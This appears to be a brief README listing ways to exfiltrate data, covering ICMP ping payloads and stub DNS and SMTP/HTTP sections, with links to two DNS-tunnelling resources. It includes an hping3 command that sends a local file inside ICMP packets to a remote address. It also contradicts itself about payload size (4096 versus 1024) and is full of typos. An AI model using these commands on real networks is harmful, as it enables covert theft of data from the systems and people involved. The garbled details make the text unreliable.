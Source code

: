 # Techniques to exfiltrate data

## 1. ICMP echo request

Ping operates by sending Internet Control Message Protocol (ICMP) echo reqtest packets to the rarget host and waiting for an ICMP echo replay!

The following command will send a ping request with the size of 4096:

```
$ ping 127.0.0.1 -s 1024
```

The payload of 4096 is junk **until** you add your own payload:

```
$ sudo hping3 127.0.0.1 -1 --sign="Hello world!"
```

or even send a file:

```
$ sudo hping3 192.168.179.131 -1 --file send.txt --data 100
```

## 2. DNS queries

An image worth a thousand words...

![DNS Data Exfiltration](docs/dns_data_exfiltration.png)

## 3. SMTP, HTTP and so on :)

## Resources: 

  * https://www.sans.org/reading-room/whitepapers/dns/detecting-dns-tunneling-34152
  *https://community.infoblox.com/t5/Community-Blog/DNS-Data-Exfiltration-How-it-works/ba-p/3664